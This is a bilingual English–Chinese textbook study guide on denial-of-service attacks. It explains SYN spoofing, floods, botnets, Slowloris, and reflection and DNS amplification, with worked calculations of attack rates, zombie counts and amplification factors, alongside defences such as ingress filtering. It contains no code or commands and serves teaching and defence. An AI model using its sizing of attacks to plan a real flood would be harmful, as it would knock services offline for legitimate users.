The attacker therefore prefers addresses that never send RST: overloaded hosts or random addresses, many of which are unused.因此攻击者更喜欢那些从不发送 RST 的地址：过载的主机，或许多都未被使用的随机地址。
Example: a server has room for 256 half-open entries. The attacker sends forged SYNs from 198.51.100.1, 198.51.100.2 and so on. After 256 of them the table is full. A real customer who sends a SYN is refused.例如：服务器有 256 个半开表项的空间。攻击者用 198.51.100.1、198.51.100.2 等伪造地址发送 SYN。发出 256 个之后，表就满了。一个真实的客户发送 SYN 时会被拒绝。
This attacks system resources. The traffic only has to refill the table before the entries expire. That is far below the link capacity, so even a broadband home user can disable a server on a large link.这攻击的是系统资源。流量只需在表项过期之前把表重新填满即可。这远低于链路容量，因此即使是宽带家庭用户，也能让大型链路上的服务器瘫痪。
Step 3: how fast must the attacker send?第 3 步：攻击者需要发送多快？
In words: the attacker must add new entries as fast as old ones expire: table size divided by entry lifetime.用文字表述：攻击者必须和旧表项过期的速度一样快地添加新表项：表的大小除以表项生存期。
Step 4: flooding attacks第 4 步：洪泛攻击
In words: flooding = sending so much traffic that the link to the server is full and routers drop the valid packets.用文字表述：洪泛 = 发送大量流量，使通往服务器的链路被占满，路由器丢弃合法的包。
A flooding attack（洪泛攻击）saturates the link to the server. Any packet type that the network allows toward the target works, and bigger packets are better. There are three kinds.洪泛攻击会使通往目标的链路饱和。网络允许发往目标的任何包类型都可以使用，而且包越大效果越好。洪泛有三种。
| Flood洪泛 | Packets数据包 | Notes说明 |
|---|---|---|
| ICMP floodICMP 洪泛 | Echo requests (ping flood); if firewalls block ping, destination unreachable or time exceeded回显请求（ping 洪泛）；若防火墙阻断 ping，则改用目的不可达或超时消息 | These must pass for TCP/IP to work and quote part of the offending packet, so they can be large这些消息必须能够通过，TCP/IP 才能正常工作；它们会引用引发错误的数据包的一部分，因此可以很大 |
| UDP floodUDP 洪泛 | UDP to any port, classically the echo service发往任意端口的 UDP，典型为 echo 服务 | Replies add load; if nothing listens, the packet is dropped, but the link is already loaded应答会增加负载；若无服务监听，数据包被丢弃，但链路已经承受了负载 |
| TCP SYN floodTCP SYN 洪泛 | SYNs or unmatched data packets, real or forged sourcesSYN 或不匹配的数据包，源地址可真实也可伪造 | The aim is total volume, not the connection table目标是总流量，而非连接表 |
A single source normally spoofs. Zombies (Section 23.3) often use their real addresses. Example: if the firewall of the target blocks ping, the attacker sends destination-unreachable packets instead, because TCP/IP needs those and they must pass.单一来源通常会伪造地址。僵尸主机（见 23.3 节）通常使用其真实地址。例如，如果目标的防火墙阻断了 ping，攻击者就改发目标不可达包，因为 TCP/IP 需要这些包，它们必须能够通过。
The difference to remember:需要记住的区别：
| SYN spoofingSYN 欺骗 | Flooding洪泛 | |
|---|---|---|
| What is exhausted被耗尽的资源 | The connection table (system resources)连接表（系统资源） | The link (bandwidth)链路（带宽） |
| Rate needed所需速率 | Low: hundreds of bit/s低：几百比特每秒 | High: above the link capacity高：超过链路容量 |
| Needs a fast attacker link需要快速的攻击者链路 | No否 | Yes, or many zombies需要，或使用许多僵尸主机 |
Other texts call the table attack a "SYN flood". Define your terms in the answer.其他教材把表攻击称为「SYN 洪泛」。请在答案中定义你使用的术语。
Practice练习
Q1. (Calculation) A server has a table for 256 connection requests. It sends the SYN-ACK, retries it five times at 30-s intervals and then purges the entry. The attacker has filled the table. At what rate must it send SYNs to keep the table full, and what bandwidth does this need with 40-byte SYNs?Q1.（计算）某服务器的表可容纳 256 个连接请求。它发送 SYN-ACK，以 30 秒为间隔重试五次，然后清除该表项。攻击者已填满该表。为使表保持满载，攻击者需要以多快的速率发送 SYN？以 40 字节的 SYN 计算，这需要多少带宽？
Answer
The SYN-ACK is sent at 0 s and retried at 30, 60, 90, 120 and 150 s; the entry is purged after the last wait, at \(L=6\times30=180\) s. Then \(r=N/L=256/180\approx1.4\) SYN/s and \(B=8\times40\times1.42\approx455\) bit/s. (If the entry is purged at the fifth retry, \(L=150\) s, \(r\approx1.7\) SYN/s and \(B\approx546\) bit/s.) Either way the attack needs under 1 Kbps.SYN-ACK 在 0 秒发送，并在 30、60、90、120 和 150 秒时重试；表项在最后一次等待之后，即 \(L=6\times30=180\) 秒时被清除。于是需要 \(r=N/L=256/180\approx1.4\) SYN/s 及 \(B=8\times40\times1.42\approx455\) bit/s。（若在第五次重试时即清除表项，则为 \(L=150\) 秒，需要 \(r\approx1.7\) SYN/s，即 \(B\approx546\) bit/s。）无论哪种情况，攻击所需带宽都低于 1 Kbps。
思路：表项寿命 L 一定要写清楚假设；速率就是表容量除以寿命。
Q2. (True or false) "A SYN spoofing attack needs an attacker with a higher-capacity link than the victim's." Justify.Q2.（判断）“SYN 欺骗攻击需要攻击者拥有比受害者更高容量的链路。”请说明理由。
Answer
False. SYN spoofing attacks the connection table, not the link. The attacker only has to send SYNs fast enough to refill the table before entries expire (Q1: about 1.4 per second), so even a broadband home user can disable a server on a large link. A flooding attack, by contrast, must exceed the link capacity.错误。SYN 欺骗攻击的是连接表，而不是链路。攻击者只需足够快地发送 SYN，使连接表在表项过期前被重新填满（见 Q1：约每秒 1.4 个），因此即使是宽带家庭用户，也能使位于大型链路上的服务器瘫痪。相比之下，洪泛攻击必须超过链路容量。
Q3. (Explain) Why do attackers who flood with ICMP switch from echo requests to destination unreachable and time exceeded packets?Q3.（解释）为什么用 ICMP 洪泛的攻击者要从回显请求改用目的不可达和超时数据包？
Answer
Many organisations now block echo requests at their firewalls. Destination unreachable and time exceeded messages are needed for TCP/IP to work (error reporting, path MTU discovery), so filtering them would degrade normal operation and they are allowed through. They also quote part of the packet that supposedly caused the error, so they can be made large, which fills the link faster.许多组织现在已在防火墙上阻断回显请求。目的不可达与超时消息是 TCP/IP 正常工作所必需的（用于错误报告和路径 MTU 发现），因此过滤它们会损害正常运行，所以这些消息通常被放行。此外，它们引用了据称引发错误的数据包的一部分，因此可以制作得很大，从而更快地填满链路。
Distributed Denial-of-Service Attacks and Botnets ★★★分布式拒绝服务攻击与僵尸网络
Goal. Define DDoS, zombie and botnet. Explain the attacker, handler and agent hierarchy with a scenario, compute how many zombies a link needs, and say why ingress filtering does not stop DDoS.目标。 定义 DDoS、僵尸主机和僵尸网络。用一个场景说明攻击者、控制端和代理的层级结构，计算一条链路需要多少僵尸主机，并说明为什么入口过滤无法阻止 DDoS。
Step 1: what a botnet is第 1 步：什么是僵尸网络
In words: DDoS = many hacked computers attack one target at the same moment, each with a little traffic.用文字表述：DDoS = 许多被入侵的计算机在同一时刻攻击同一个目标，每台只发送少量流量。
A single source limits the volume and is easy to trace. A distributed denial-of-service (DDoS) attack（分布式拒绝服务攻击）uses many systems at once. The attacker infects ordinary hosts, such as home and office PCs and IoT (Internet of Things) devices, with malware that installs an attack agent. An infected host is a zombie（僵尸主机）. A large set of zombies under one controller is a botnet（僵尸网络）. Each zombie is weak, but together they exceed the capacity of almost any target. The traffic comes from many real sources.单一来源的流量规模有限，而且很容易被追踪。分布式拒绝服务（DDoS）攻击同时使用许多系统。攻击者用恶意软件感染普通主机，例如家用和办公用的个人电脑以及物联网（IoT）设备，这些恶意软件会安装一个攻击代理程序。被感染的主机就是僵尸主机。在同一个控制者下的大量僵尸主机构成僵尸网络。每台僵尸主机都很弱，但合起来，它们的流量超过了几乎所有目标的容量。流量来自许多真实的来源。
Step 2: the control hierarchy第 2 步：控制层级
In words: the attacker talks to a few handlers, and each handler talks to many agents, so one command reaches thousands of zombies.用文字表述：攻击者与少数控制端通信，每个控制端再与许多代理通信，因此一条命令就能到达成千上万台僵尸主机。

A few handlers（控制节点）forward each command to many agents. Infection tools scan for vulnerable hosts and upload the agent. The agent contacts a handler by itself, so the botnet grows automatically. Tribe Flood Network (TFN, TFN2K) is the classic tool. Its Trojan agents perform ICMP, SYN and UDP floods, commanded by handlers over encrypted traffic, without spoofing. Later tools use IRC (Internet Relay Chat) or HTTP servers for control.少数控制端把每条命令转发给许多代理。感染工具扫描易受攻击的主机，并上传代理程序。代理程序会自行联系控制端，因此僵尸网络会自动增长。Tribe Flood Network（TFN、TFN2K）是经典工具。它的木马代理执行 ICMP、SYN 和 UDP 洪泛，由控制端通过加密流量发出指令，且不伪造地址。后来的工具使用 IRC 或 HTTP 服务器进行控制。
Scenario (an example). An attacker infects 2,000 home PCs with a rented infection tool. Each PC has a 128 Kbit/s uplink and contacts one of 5 handlers by itself. The handlers are hacked servers. On the day of the attack the attacker sends one command, "flood 203.0.113.50 with UDP", to the 5 handlers. Each handler forwards it to its 400 agents. Together the zombies send \(2{,}000 \times 128 = 256{,}000\) Kbit/s, that is 256 Mbit/s. The target's access link has 100 Mbit/s. It is saturated 2.56 times over. The packets carry the real addresses of the zombies, so the victim's logs list 2,000 innocent home PCs and never the attacker.场景（一个例子）。攻击者用一个租用的感染工具感染了 2,000 台家用电脑。每台电脑有 128 Kbit/s 的上行链路，并自行联系 5 个控制端之一。这些控制端是被入侵的服务器。攻击当天，攻击者向 5 个控制端发送一条命令：「用 UDP 洪泛 203.0.113.50」。每个控制端把它转发给自己的 400 个代理。这些僵尸主机合计发送 \(2{,}000 \times 128 = 256{,}000\) Kbit/s，即 256 Mbit/s。目标的接入链路是 100 Mbit/s，因此链路被超出其容量 2.56 倍的流量饱和。这些包带有僵尸主机的真实地址，因此受害者的日志列出的是 2,000 台无辜的家用电脑，却从来没有攻击者。
Step 3: what defends against DDoS第 3 步：如何防御 DDoS
A DDoS attack needs no spoofing, so ingress filtering does not stop it. The defence of a potential zombie is not to be compromised: good system security and patched systems. The target uses the flood defences of Section 23.6. Spoofed floods and reflection can be removed by ingress filtering. A botnet cannot.DDoS 攻击不需要伪造，因此入口过滤无法阻止它。对潜在僵尸主机的防御是不被入侵：保持良好的系统安全，并及时打补丁。目标则使用第 23.6 节中的洪泛防御。伪造的洪泛和反射可以通过入口过滤去除，而僵尸网络则无法去除。
Practice练习
Q1. (Calculation) Each zombie is a home PC with a 128-Kbps uplink and sends 500-byte echo requests. (a) How many packets per second can one zombie send? (b) How many zombies saturate a 0.5-Mbps, a 2-Mbps and a 10-Mbps link? (c) What follows for a botnet of 10,000 zombies?Q1.（计算）每台僵尸主机都是上行链路为 128 Kbps 的家用电脑，发送 500 字节的 echo 请求。（a）一台僵尸主机每秒能发送多少个数据包？（b）需要多少台僵尸主机才能使 0.5 Mbps、2 Mbps 和 10 Mbps 的链路饱和？（c）对于由 10,000 台僵尸主机组成的僵尸网络，会得出什么结论？
Answer
(a) 500 bytes \(=4{,}000\) bits, so \(128{,}000/4{,}000=32\) packets/s. (b) \(n=\lceil C/c\rceil\): \(500/128=3.9\to4\) zombies; \(2{,}000/128=15.6\to16\); \(10{,}000/128=78.1\to79\). (c) 10,000 zombies send \(10{,}000\times128\) Kbps \(=1.28\) Gbps in total: enough to saturate a 1-Gbps link, or 128 organisations with 10-Mbps links (2,560 with 0.5-Mbps links) at the same time. A large botnet can therefore attack many small targets at once, or a large organisation with much faster links.（a）500 字节 \(=4{,}000\) 位，因此每秒 \(128{,}000/4{,}000=32\) 个数据包。（b）\(n=\lceil C/c\rceil\)：\(500/128=3.9\to4\) 台僵尸主机；\(2{,}000/128=15.6\to16\)；\(10{,}000/128=78.1\to79\)。（c）10,000 台僵尸主机合计发送 \(10{,}000\times128\) Kbps，即 \(=1.28\) Gbps：足以同时使一条 1 Gbps 链路饱和，或同时使 128 个各拥有 10 Mbps 链路的机构饱和（若链路为 0.5 Mbps，则为 2,560 个机构）。因此，大型僵尸网络既能同时攻击大量小型目标，也能攻击链路速度快得多的大型机构。
Q2. (Explain) Describe the handler–agent hierarchy and give two advantages over commanding each zombie directly. Why did TFN not need to forge source addresses?Q2.（解释）请描述控制端与代理程序的层级结构，并给出相比直接控制每台僵尸主机的两个优点。为什么 TFN 不需要伪造源地址？
Answer
The attacker controls a few handlers; each handler controls many agents (zombies), which flood the target. Advantages: one command sent to a handler is forwarded to all its agents, which scales; a new agent contacts a handler by itself after infection, so the botnet grows automatically. TFN relied on the many zombies and the layered, encrypted command structure to hide the path back to the attacker, so the flood packets could carry the zombies' real addresses.攻击者控制少数控制端，每个控制端再控制大量代理程序（即僵尸主机），由它们向目标发起洪泛。优点有二：发给控制端的一条命令会被转发给其所有代理程序，因而具有良好的可扩展性；新感染的代理程序会自行联系控制端，因此僵尸网络会自动扩张。TFN 依靠大量僵尸主机以及分层加密的命令结构来隐藏通往攻击者的路径，因此洪泛数据包可以携带僵尸主机的真实地址。
Q3. (True or false) "If every ISP applied ingress filtering, DDoS attacks would disappear." Justify.Q3.（判断）“如果每个 ISP 都实施入口过滤，DDoS 攻击就会消失。”请说明理由。
Answer
False. Ingress filtering only removes forged sources. A botnet floods with the zombies' real addresses, so every packet is valid and passes the filter. Filtering would end reflection and amplification attacks and the anonymity of single-source floods. Against DDoS the defences are patched hosts that cannot be recruited, upstream filtering of identified sources and spare capacity.错误。入口过滤只能去除伪造的源地址。僵尸网络以僵尸主机的真实地址进行洪泛，因此每个数据包都是合法的，都能通过过滤。过滤可以终结反射攻击和放大攻击，并使单一来源的洪泛攻击失去匿名性。针对 DDoS 的防御手段是：使已打补丁的主机无法被招募，对已识别的来源实施上游过滤，并保留备用容量。
Application-Based Bandwidth Attacks ★★基于应用的带宽攻击
Goal. Describe a SIP flood, an HTTP flood and Slowloris, and say why a signature-based intrusion detection system does not see them.目标。 描述 SIP 洪泛、HTTP 洪泛和 Slowloris，并说明为什么基于特征码的入侵检测系统看不到它们。
These attacks use valid requests that force the server to do work out of proportion to the attacker's effort.这些攻击使用合法的请求，迫使服务器做出与攻击者付出的努力不成比例的工作。
Step 1: SIP and HTTP floods第 1 步：SIP 和 HTTP 洪泛
In words: an application flood = many valid requests that are expensive for the server to answer.用文字表述：应用层洪泛 = 大量合法请求，而服务器回答它们的代价很高。
- SIP flood. VoIP calls are set up with the Session Initiation Protocol (SIP), a text protocol like HTTP. An INVITE message travels from the caller through the proxy servers to the callee's phone. A SIP flood sends numerous INVITEs, spoofed or from a botnet. Each needs considerable processing. The proxies lose server resources and network capacity, and the receivers are flooded with forged calls.SIP 洪泛。IP 语音（VoIP）通话通过会话发起协议（SIP）建立，SIP 是一种类似 HTTP 的文本协议。INVITE 消息从主叫方经代理服务器到达被叫方的电话。SIP 洪泛会发送大量 INVITE，可以是伪造的，也可以来自僵尸网络。每个 INVITE 都需要相当多的处理。代理服务器失去服务器资源和网络容量，接收方则被伪造的呼叫淹没。
- HTTP flood. Bots bombard a web server with HTTP or HTTPS requests that are costly to answer. Example: a request for a large file that is read from disk, held in memory and sent as packets. A recursive HTTP flood (spidering) follows all links on the site.HTTP 洪泛。僵尸主机用大量 HTTP 或 HTTPS 请求轰炸 Web 服务器，而这些请求的应答代价很高。例如，请求一个大文件，它要从磁盘读取，放入内存，再作为包发送出去。递归 HTTP 洪泛（爬取）会跟随网站上的所有链接。
Step 2: Slowloris第 2 步：Slowloris
In words: Slowloris = keep many connections open with half-finished requests until the server has no free thread.用文字表述：Slowloris = 保持许多连接打开，并发送未完成的请求，直到服务器再没有空闲线程。
Slowloris occupies every request-handling thread of a web server. Each of many connections carries an incomplete request. Header lines arrive now and then to keep it alive. The blank line that ends the headers is never sent. Each connection holds a thread until none is free for legitimate users.Slowloris 占满 Web 服务器的每一个请求处理线程。许多连接中的每一个都带着一个不完整的请求。头部行会不时到达，以保持连接存活。结束头部的空行却始终不发送。每个连接都占着一个线程，直到合法用户再也找不到空闲线程。
Example: a restaurant has 256 tables. The attacker sits down at all 256 and never orders. Real guests are turned away, although the attacker has eaten nothing.例如：一家餐厅有 256 张桌子。攻击者在全部 256 张桌子旁坐下，却从不点餐。真正的客人被拒之门外，而攻击者一口东西也没吃。
Slowloris is legitimate HTTP, uses no bug and uses little bandwidth. A signature-based IDS finds no pattern, so it misses it. Three countermeasures:Slowloris 是合法的 HTTP，不利用任何漏洞，也只占用很少的带宽。基于特征码的 IDS 找不到任何模式，因此会漏检它。有三种对策：
- limit the connection rate per host;限制每个主机的连接速率；
- vary the timeout with the number of connections;根据连接数量调整超时时间；
- delayed binding（延迟绑定）: the load balancer forwards a request only after the complete header, that is the final blank line, has arrived. The web server never sees incomplete requests.延迟绑定：负载均衡器只在完整的头部（即最后的空行）到达之后才转发请求。这样，Web 服务器永远看不到不完整的请求。
Practice练习
Q1. (Explain) Describe Slowloris. Why does a signature-based IDS miss it, and what are two countermeasures?Q1.（解释）请描述 Slowloris 攻击。为什么基于特征码的 IDS 无法发现它？它的两种对策是什么？
Answer
Slowloris opens many connections to a web server and sends on each an incomplete HTTP request: header lines arrive periodically, but the blank line that ends the headers never does. The server keeps each connection and its thread open, so eventually all threads are busy and legitimate users are refused. The traffic is valid HTTP, small and exploits no bug, so there is no signature to match. Countermeasures: limit the connection rate per host; vary the timeout with the number of connections; delayed binding on the load balancer.Slowloris 与 Web 服务器建立大量连接，并在每个连接上发送一个不完整的 HTTP 请求：请求头行定期到达，但结束请求头的空行却始终不到达。服务器会保持每个连接及其线程处于打开状态，最终所有线程都被占用，合法用户被拒之门外。这些流量是合法的 HTTP，规模小，且不利用任何漏洞，因此没有可供匹配的特征码。对策包括：限制每个主机的连接速率；按连接数调整超时时间；在负载均衡器上使用延迟绑定。
Q2. (Explain) Why do ingress filtering and SYN cookies not help against an HTTP flood from a botnet? Name two measures that do.Q2.（解释）为什么入口过滤和 SYN cookie 都无法抵御来自僵尸网络的 HTTP 洪泛？请给出两种有效的措施。
Answer
The bots use their real addresses and complete the TCP handshake, so the requests are valid and pass both defences; the cost lies in application processing. Measures: a captcha to separate human-initiated requests from automated ones; per-client rate limits on costly interactions; replicated servers or spare capacity; blocking identified bot sources upstream.僵尸程序使用真实地址并完成 TCP 握手，因此这些请求是合法的，能够通过上述两种防御；代价在于应用层的处理。有效措施包括：使用验证码将人工发起的请求与自动化请求区分开；对代价高昂的交互实施按客户端的速率限制；部署复制服务器或保留备用容量；在上游封锁已识别的僵尸程序来源。
Reflector and Amplifier Attacks ★★★反射与放大攻击
Goal. Explain reflection, smurf, fraggle and DNS amplification as sequences of who sends what to whom with which source address. Compute an amplification factor and name the defences and the shared properties.目标。 把反射、smurf、fraggle 和 DNS 放大解释为谁以何种源地址向谁发送什么。计算放大因子，并说出防御手段和它们共有的性质。
Step 1: reflection第 1 步：反射
In words: reflection = send a request to an ordinary server with the victim's address as the sender, so that the server's reply goes to the victim.用文字表述：反射 = 以受害者的地址作为发送者，向普通服务器发送请求，使服务器的回复发往受害者。
The intermediaries are ordinary servers working normally, not compromised machines. In a reflection attack（反射攻击）each request produces a reply, and the intermediary is the reflector. The attacker wants a service whose reply is larger than the request. Connectionless UDP services answer whatever source address the request carries, so they are the usual choice: echo, chargen, CLDAP, DNS, SNMP and ISAKMP.中间的服务器是正常工作的普通服务器，而不是被入侵的机器。在反射攻击中，每个请求都会产生一个回复，而中间的服务器就是反射器。攻击者希望利用回复比请求更大的服务。无连接的 UDP 服务会应答请求中携带的任何源地址，因此它们是常用的选择：echo、chargen、CLDAP、DNS、SNMP 和 ISAKMP。
Who sends what to whom (an example):谁向谁发送什么（一个例子）：
- The attacker sends a request to the reflector. Source address: the target 203.0.113.50. Destination: the reflector.攻击者向反射器发送一个请求。源地址：目标 203.0.113.50。目的地址：反射器。
- The reflector sees a normal request and sends a reply to the source address, which is the target.反射器看到的是一个普通请求，于是把回复发送到源地址，即目标。
- The target receives replies that it never asked for. The attacker's real address is nowhere in them.目标收到了它从未请求过的回复。攻击者的真实地址不出现在这些回复中的任何地方。
Reflectors are high-capacity servers or routers, so the attack hides in their normal traffic. The attacker spreads the requests over many reflectors, so that the load on each stays low.反射器是高容量的服务器或路由器，因此攻击隐藏在它们的正常流量之中。攻击者把请求分散到许多反射器上，使每个反射器的负载都保持较低。
TCP SYN reflection. The attacker sends SYNs with the target's address to many servers. Each replies SYN-ACK to the target, which answers RST, too late. This floods the link, unlike SYN spoofing, which fills a table. Each request looks like a normal connection request.TCP SYN 反射。攻击者以目标的地址向许多服务器发送 SYN。每个服务器都向目标回复 SYN-ACK，目标则回复 RST，但已经太迟了。这会占满链路，这与填满表的 SYN 欺骗不同。每个请求看起来都像一次正常的连接请求。
Reflection loop. A DNS query with the target's address as forged source and UDP port 7 (echo) makes the server reply to the target's echo port. The target may echo the data back, so the two reflect each other. Port-combination rules stop it.反射环路。攻击者用目标地址作为伪造的源地址，并以 UDP 端口 7（echo）为目标发送一个 DNS 查询，使服务器把回复发往目标的 echo 端口。目标可能会把数据回显回去，于是两者互相反射。端口组合规则可以阻止这种情况。

Two properties hold for every reflection attack:每一种反射攻击都具有以下两个特性：
- No backscatter. Every packet goes to the target. Evidence exists only at the target, its ISP or the reflectors.无反向散射。 每个数据包都发往目标。证据只存在于目标、其 ISP 或反射器处。
- Spoofing is essential. With ingress filtering (RFC 2827), reflection is impossible.必须伪造源地址。 若部署了入口过滤（RFC 2827），反射攻击就无法实施。
Step 2: broadcast amplification (smurf and fraggle)第 2 步：广播放大（smurf 和 fraggle）
In words: amplification = reflection in which one request makes many hosts answer, so the victim gets many replies per request.用文字表述：放大 = 反射的一种，一个请求使许多主机作出应答，因此受害者每个请求会收到多个回复。
An amplification attack（放大攻击）is a reflection attack in which each request yields several replies. The request goes to the directed broadcast（定向广播）address of a network. Every host there can answer, and all replies go to the forged source.放大攻击是一种反射攻击，每个请求会产生多个回复。请求发往某个网络的定向广播地址。该网络中的每台主机都可以应答，所有回复都发往伪造的源地址。

- Smurf uses ICMP echo requests (ping). Fraggle uses UDP echo.Smurf 使用 ICMP 回显请求（ping）。Fraggle 使用 UDP 回显。
- TCP cannot be used. It is connection-oriented, and a broadcast is connectionless.不能使用 TCP。TCP 是面向连接的，而广播是无连接的。
- Defences: do not route directed broadcasts in from outside (ISP or organisation). Block echo and ping from outside, at some cost to troubleshooting.防御办法：不要把来自外部的定向广播路由进网络（由 ISP 或机构设置）。从外部阻断 echo 和 ping，但排障会变得困难一些。
Example: an attacker sends 84-byte ICMP echo requests with the target's source to the broadcast address of a /24 network in which 150 hosts reply with 84 bytes. \(A = 150 \times 84 / 84 = 150\). With a 2 Mbit/s uplink the target receives \(150 \times 2 = 300\) Mbit/s. A 100 Mbit/s access link is overloaded three times over.例：攻击者以目标的源地址，向一个 /24 网络的广播地址发送 84 字节的 ICMP 回显请求，该网络中 150 台主机各回复 84 字节。\(A = 150 \times 84 / 84 = 150\)。若目标的上行链路为 2 Mbit/s，目标将收到 \(150 \times 2 = 300\) Mbit/s。一条 100 Mbit/s 的接入链路会被超出三倍。
Step 3: DNS amplification第 3 步：DNS 放大
In words: DNS amplification = a tiny query makes a name server send a huge answer to the victim.用文字表述：DNS 放大 = 一个极小的查询使域名服务器向受害者发送一个巨大的应答。
A DNS amplification attack uses the protocol itself: one small request yields one large response. A 60-byte UDP request can draw a 512-byte response, the classic maximum, so \(A \approx 8.5\). The extended DNS protocol (IPv6, security) allows over 4,000 bytes, so \(A > 66\). The attacker sends queries with the target's address as source to many well-connected name servers that hold large records.DNS 放大攻击直接利用协议本身：一个很小的请求换来一个很大的应答。一个 60 字节的 UDP 请求可以引出一个 512 字节的应答（这是经典的最大值），因此 \(A \approx 8.5\)。扩展的 DNS 协议（支持 IPv6、安全扩展）允许超过 4,000 字节，因此 \(A > 66\)。攻击者以目标地址作为源地址，向许多网络连接良好、且持有大型记录的域名服务器发送查询。
A variant uses open recursive DNS servers（开放递归 DNS 服务器）. They resolve queries for anyone, not only local clients. The data need not be on the server: it fetches a large record from anywhere on the Internet.一种变体使用开放递归 DNS 服务器。这类服务器为任何人解析查询，而不只为本地客户端。数据不必存放在服务器上：它可以从互联网上的任何地方取回一条大型记录。
Defences: ingress filtering at ISPs, as for all reflection, and restricting recursive responses to internal clients (RFC 5358). The second is specific to this attack.防御办法：在 ISP 处做入口过滤（与所有反射攻击一样），并把递归应答限制给内部客户端（RFC 5358）。第二条是这种攻击特有的。
Practice练习
Q1. (Calculation) DNS responses are 500 bytes and requests 60 bytes. How many responses per second must the intermediary send to saturate a 0.5-Mbps, a 2-Mbps and a 10-Mbps link? What request bandwidth does the attacker use in each case, and what is the amplification factor?Q1.（计算）DNS 应答为 500 字节，请求为 60 字节。中间节点需要每秒发送多少个应答，才能使 0.5 Mbps、2 Mbps 和 10 Mbps 的链路饱和？在每种情况下，攻击者使用多少请求带宽？放大系数是多少？
Answer
\(r=C/(8s)\) with \(s=500\) gives 125, 500 and 2,500 responses/s. Each needs one request of \(60\times8=480\) bits: \(125\times480=60\) Kbps, \(500\times480=240\) Kbps and \(2{,}500\times480=1.2\) Mbps. \(A=500/60\approx8.3\), so the attacker spends only 12% of the bandwidth that arrives at the target.\(r=C/(8s)\) 在 \(s=500\) 下分别得到 125、500 和 2,500 个应答/秒。每个应答需要一个 \(60\times8=480\) 比特的请求：分别为 \(125\times480=60\) Kbps、\(500\times480=240\) Kbps 和 \(2{,}500\times480=1.2\) Mbps。\(A=500/60\approx8.3\)，因此攻击者只需消耗到达目标带宽的 12%。
Q2. (Compare) Distinguish reflection, broadcast amplification and DNS amplification. Why can TCP not be used for broadcast amplification?Q2.（比较）区分反射、广播放大与 DNS 放大。为什么广播放大不能使用 TCP？
Answer
Reflection: requests with the target's address as forged source go to normal servers, and each reply goes to the target (the reply may be larger than the request). Broadcast amplification: one request to a network's directed-broadcast address makes every host reply to the target (smurf: ICMP echo; fraggle: UDP echo), so the number of replies is multiplied. DNS amplification: one small query to a name server (often an open recursive one) yields one large response (60 bytes to 512 bytes, or over 4,000 bytes with extended DNS). TCP cannot be used because it is connection-oriented, whereas a broadcast is connectionless.反射：以目标地址作为伪造源地址的请求发往普通服务器，每个应答都发给目标（应答可能比请求更大）。广播放大：向某网络的定向广播地址发送一个请求，使该网络中的每台主机都向目标应答（smurf 使用 ICMP echo，fraggle 使用 UDP echo），因此应答数量成倍增加。DNS 放大：向域名服务器（通常是开放递归服务器）发送一个很小的查询，得到一个很大的应答（从 60 字节到 512 字节，若使用扩展 DNS 则可超过 4,000 字节）。TCP 无法使用，因为它面向连接，而广播是无连接的。
Q3. (Calculation, beyond the pages) An attacker sends ICMP echo requests with the target's address as source to the broadcast address of a /24 network in which 150 hosts reply. Request and reply are both 84 bytes and the attacker's uplink is 2 Mbps. (a) What are the amplification factor and the flood bandwidth? (b) Which links carry the load? (c) Which configuration changes stop the attack?Q3.（计算，超出正文范围）攻击者以目标地址作为源地址，向一个 /24 网络的广播地址发送 ICMP echo 请求，该网络中有 150 台主机会应答。请求和应答均为 84 字节，攻击者的上行链路为 2 Mbps。（a）放大系数和洪泛带宽分别是多少？（b）哪些链路承担了负载？（c）哪些配置更改可以阻止该攻击？
Answer
(a) \(A=150\times84/84=150\), so the target receives \(150\times2=300\) Mbps. (The attacker sends \(2{,}000{,}000/(8\times84)\approx2{,}976\) requests/s, causing about 446,000 replies/s.) (b) The links of the intermediate network and the target's access link; a 100-Mbps access link would be overloaded three times over. (c) Routers must not forward directed broadcasts into the network from outside; ingress filtering at the attacker's ISP removes the forged source; blocking echo from outside also helps.（a）\(A=150\times84/84=150\)，因此目标接收到 \(150\times2=300\) Mbps 的流量。（攻击者每秒发送 \(2{,}000{,}000/(8\times84)\approx2{,}976\) 个请求，约引发 446,000 个应答/秒。）（b）中间网络的链路以及目标的接入链路；一条 100 Mbps 的接入链路将承受其容量三倍的负载。（c）路由器不得将来自外部的定向广播转发进网络；在攻击者的 ISP 处实施入口过滤可去除伪造的源地址；阻止来自外部的 echo 也有帮助。
Defences and Response ★★★防御与响应
Goal. State that DoS cannot be prevented entirely, list the four lines of defence, explain ingress filtering and SYN cookies, and match each attack with its best defence and where it is applied.目标。 说明拒绝服务（DoS）无法被完全阻止，列出四道防线，解释入口过滤和 SYN cookie，并把每种攻击与其最佳防御及防御的部署位置对应起来。
Step 1: limits and four lines of defence第 1 步：局限与四道防线
In words: DoS cannot be removed, because a flood of real users looks the same, so we prevent, detect, trace and react.用文字表述：拒绝服务无法根除，因为真实用户的洪峰看起来一样，所以我们要预防、检测、追踪和响应。
A flash crowd（突发访问）is a large volume of legitimate traffic, for example after a popular posting or during a major sporting event. It also overloads a site and cannot be stopped without hurting performance. Four lines of defence exist.突发访问是大量合法流量，例如热门帖子发布之后，或重大体育赛事期间。它同样会使网站过载，而且如果不损害性能就无法制止。共有四道防线。
| Line of defence防线 | When时机 | Purpose目的 |
|---|---|---|
| Prevention and preemption预防与抢先防御 | Before事前 | Enforce resource policies, keep backup resources, harden systems and protocols执行资源策略，保留备用资源，加固系统与协议 |
| Detection and filtering检测与过滤 | During事中 | Spot suspicious patterns, filter likely attack packets识别可疑模式，过滤可能的攻击数据包 |
| Traceback and identification回溯与溯源 | During and after事中与事后 | Find the source to prevent repeats; rarely fast enough to stop a running attack找出来源以防止再次发生；很少能快到足以制止正在进行的攻击 |
| Reaction响应 | After事后 | Eliminate or curtail the effects消除或减轻影响 |
Step 2: network-level defences第 2 步：网络层防御
- Ingress filtering. The ISP knows its customers' address ranges. It drops packets whose source is not allocated to the customer. It does so with an access-control rule, or with a reverse-path check that the route back to the claimed source uses the arrival interface. That check can fail with redundant routing. Many ISPs still do not filter.入口过滤。 ISP 知道其客户的地址范围。它丢弃源地址不属于该客户的数据包。可以用访问控制规则实现，也可以用反向路径检查来实现：检查回到所声称源地址的路由是否经由数据包到达的接口。冗余路由可能使这项检查失效。许多 ISP 至今仍不做过滤。
- Flooding is defended in the Internet cloud, not at the target's boundary router, which lies behind the congested link. Non-spoofed floods can only be met by upstream filtering of identified sources, spare capacity and replication.洪泛攻击要在互联网“云”中防御，而不是在目标的边界路由器处，因为该路由器位于拥塞链路的后面。对于非伪造源的洪泛，只能通过上游过滤已识别的来源、预留容量和复制服务器来应对。
